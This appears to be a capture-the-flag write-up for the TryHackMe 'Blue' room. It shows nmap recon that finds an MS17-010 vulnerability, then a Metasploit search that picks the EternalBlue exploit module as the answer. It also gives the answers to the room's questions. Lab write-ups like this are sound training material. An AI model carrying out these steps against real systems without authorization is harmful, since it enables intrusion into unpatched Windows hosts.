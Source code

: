 [blue - TryHackMe](https://tryhackme.com/room/blue) | Cya-nyde
==============================================================

## Recon

### How many ports are open with a port number under 1000?

- <code>nmap -p 1-1000 *target ip*</code> to list all open ports under port 1000

```
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

> There are **3** results returned

### What is this machine vulnerable to?

- <code>sudo nmap -sV -script=vuln -T5 -p 135,139,445 *target ip*</code> to run vuln scan on discovered open ports


```
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
MAC Address: 16:FF:CE:C9:65:03 (Unknown)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED

```

> The scan shows that the target is vulnerable to **ms17-010**

## Gain Access

- Use `msfconsole` to open *metasploit*

### Find the exploitation code we will run against the machine. What is the full path of the code? 

- `search ms17-010` to list metasploit modules related to this exploit

```
Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

```

> The full path to the exploit is **exploit/windows/smb/ms17_010_eternalblue**

